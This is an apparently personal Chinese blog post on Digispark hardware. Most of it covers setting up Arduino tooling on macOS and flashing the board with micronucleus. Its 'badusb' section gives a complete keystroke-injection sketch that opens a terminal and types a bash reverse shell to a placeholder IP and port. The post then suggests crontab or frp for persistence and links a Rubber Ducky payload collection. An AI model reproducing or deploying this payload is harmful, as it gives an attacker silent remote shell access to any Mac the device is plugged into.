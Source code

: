 ```yaml
---
title: "硬件"
date: 2021-10-10T17:42:32+08:00
lastmod: 2021-10-10T17:42:32+08:00
draft: false
keywords: []
description: ""
tags: [hardware]
categories: []
author: "lttzz"

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: true
autoCollapseToc: true
postMetaInFooter: false
hiddenFromHomePage: false
# You can also define another contentCopyright. e.g. contentCopyright: "This is another copyright."
contentCopyright: false
reward: false
mathjax: false
mathjaxEnableSingleDollar: false
mathjaxEnableAutoNumber: false

# You unlisted posts you might want not want the header or footer to show
hideHeaderAndFooter: false

# You can enable or disable out-of-date content warning for individual post.
# Comment this out to use the global config.
#enableOutdatedInfoWarning: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


<!--more-->

# USB

## Digispark

### 0x00 Preknowledge

+ [Connecting and Programming Your Digispark](http://digistump.com/wiki/digispark/tutorials/connecting)



``` bash
# Arduino
Arduino: 1.8.16 (Mac OS X), Board: "Digispark (Default - 16.5mhz)"


fork/exec /Users/lttzz/Library/Arduino15/packages/arduino/tools/avr-gcc/4.8.1-arduino5/bin/avr-g++: no such file or directory
Error compiling for board Digispark (Default - 16.5mhz).


This report would have more information with
"Show verbose output during compilation"
option enabled in File -> Preferences.



# 上来就劝退啊
# http://digistump.com/board/index.php?topic=3198.0
# https://digistump.com/board/index.php?topic=3249.0
$ cd ~/Library/Arduino15/packages/arduino/tools/avr-gcc
$ mv 4.8.1-arduino5 orig.4.8.1
$ ln -s /Applications/Arduino.app/Contents/Java/hardware/tools/avr 4.8.1-arduino5 
```

macOS识别不出来，无法直接Arduino烧录，故而需要使用 [bootloader](https://github.com/micronucleus/micronucleus)，尽量不要使用 usb hub。

``` bash
$ ./micronucleus sketch_oct21a.ino.hex
> Please plug in the device ...
> Device is found!
connecting: 40% complete
> Device has firmware version 2.5
> Device signature: 0x1e930b
> Available space for user applications: 6586 bytes
> Suggested sleep time between sending pages: 7ms
> Whole page count: 103  page size: 64
> Erase function sleep duration: 721ms
parsing: 60% complete
> Erasing the memory ...
erasing: 80% complete
> Starting to upload ...
writing: 100% complete
>> Micronucleus done. Thank you!
```

找不到hex文件的，Arduino Preference 里把 verbose output 开启。

![](/Picbed/2021_10/1021_00.png)

### badusb

麻了，谁说Arduino无脑的，`#inclulde <Keyboard.h>` 能给我报找不到 `HID.h` 。

``` c++
#include "DigiKeyboard.h"

void setup()
{
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  // call spotlight
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(2000);

  // open terminal
  DigiKeyboard.print("iterm");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);

  DigiKeyboard.print("bash");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);

  // reverse shell
  DigiKeyboard.print("bash -i >& /dev/tcp/{ip}/{port} 0>&1&");  
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);

  // exit
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);  

  // initialize the digital pin as an output.
  pinMode(0, OUTPUT); //LED on Model B
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop()
{
  digitalWrite(0, HIGH);   // turn the LED on (HIGH is the voltage level)
  digitalWrite(1, HIGH);
  delay(500);               // wait for a second
  digitalWrite(0, LOW);    // turn the LED off by making the voltage LOW
  digitalWrite(1, LOW); 
  delay(500);               // wait for a second
}
```

[Rubber-ducky payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)

crontab/frp之类的就可以搞一搞啦。

# WIFI

## esp8266

macOS插入不识别，咕咕咕。
